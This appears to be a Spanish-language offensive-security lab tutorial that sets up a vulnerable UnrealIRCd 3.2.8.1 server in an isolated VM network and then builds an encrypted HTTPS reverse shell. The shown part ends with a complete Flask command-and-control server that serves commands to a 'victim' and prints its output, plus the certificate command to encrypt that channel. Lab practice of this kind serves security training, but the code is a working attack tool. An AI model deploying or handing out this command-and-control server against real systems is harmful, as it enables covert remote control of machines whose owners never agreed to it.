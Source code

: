 #### 📡 Red

Configura ambas en **"red interna" o "host-only"** para que se comuniquen entre sí sin internet.

---

### Instalar UnrealIRCd vulnerable (si no usas Metasploitable)

En una VM de Ubuntu antigua (opcional, ya viene en Metasploitable 2):

```bash
sudo apt update
sudo apt install build-essential -y
wget https://downloads.sourceforge.net/project/unrealircd/Unreal3.2/unreal3.2.8.1.tar.gz
tar -zxvf unreal3.2.8.1.tar.gz
cd Unreal3.2.8.1
./Config  # Acepta todas las opciones por defecto
make
./unreal start
```

✔️ El servidor ahora escucha en el puerto **6667**.

---

### Crear una shell reversa cifrada (HTTPS)

#### 🔐 Paso 1: Crear certificado autofirmado

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

---

#### 🖥️ Servidor HTTPS (atacante)

Guarda como `https_shell_server.py`:

```python
from flask import Flask, request
import ssl

app = Flask(__name__)
comando_actual = "whoami"

@app.route("/", methods=["GET", "POST"])
def shell():
    global comando_actual
    if request.method == "GET":
        return comando_actual
    else:
        resultado = request.data.decode()
        print("[+] Salida de la víctima:\n", resultado)
        return "OK"

@app.route("/set/<cmd>")
def set_cmd(cmd):
    global comando_actual
    comando_actual = cmd
    return f"Comando actualizado a: {cmd}"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8443, ssl_context=("cert.pem", "key.pem"))
```
